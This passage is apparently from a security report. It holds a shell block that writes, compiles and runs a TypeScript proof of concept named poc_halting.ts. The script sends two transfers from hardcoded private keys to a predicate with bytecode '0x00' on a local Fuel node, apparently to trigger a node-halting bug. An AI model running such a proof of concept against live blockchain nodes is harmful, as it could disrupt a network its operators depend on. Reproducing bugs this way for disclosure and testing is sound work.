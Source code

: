 ```sh
        'name': '',
        'type': 0,
        'typeArguments': null
      },
      'attributes': null
    }
  ],
  'loggedTypes': [],
  'messagesTypes': [],
  'configurables': []
};

const FUEL_NETWORK_URL = 'http://127.0.0.1:4000/v1/graphql';

async function executeTransaction() {

  const provider = await Provider.create(FUEL_NETWORK_URL);
  
  const wallet: WalletUnlocked = Wallet.fromPrivateKey('0x37fa81c84ccd547c30c176b118d5cb892bdb113e8e80141f266519422ef9eefd', provider);
  const wallet2: WalletUnlocked = Wallet.fromPrivateKey('0xde97d8624a438121b86a1956544bd72ed68cd69f2c99555b08b1e8c51ffd511c', provider);

  const predicate = new Predicate({
    bytecode: '0x00',
    provider: wallet.provider,
    abi: abi,
  })

  console.log('Submitting first transaction');
  await wallet.transfer(predicate.address, 100);

  console.log('Submitting second transaction');
  await wallet2.transfer(predicate.address, 100);

  console.log('Submitted 2 transactions');

};

executeTransaction().catch(console.error);
""" > poc_halting.ts

tsc poc_halting.ts

node poc_halting.js
```